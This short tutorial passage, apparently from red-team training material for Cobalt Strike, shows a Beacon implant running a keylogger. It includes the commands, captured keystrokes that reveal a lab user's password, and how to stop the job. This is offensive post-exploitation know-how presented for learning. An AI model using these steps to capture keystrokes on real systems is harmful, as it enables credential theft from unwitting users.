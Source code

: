 A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.

```shell
beacon> keylogger
[+] received keystrokes from Secret Application - Google Chrome by bfarmer
```

All keystrokes can be seen at **View > Keystrokes**.

```shell
New Tab - Google Chrome
=======
http://srv-1

srv-1 - Google Chrome
=======
bfarmer[tab]Sup3rman
```

The keylogger runs as a job that can be stopped with the `jobkill` command.

```shell
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1
```


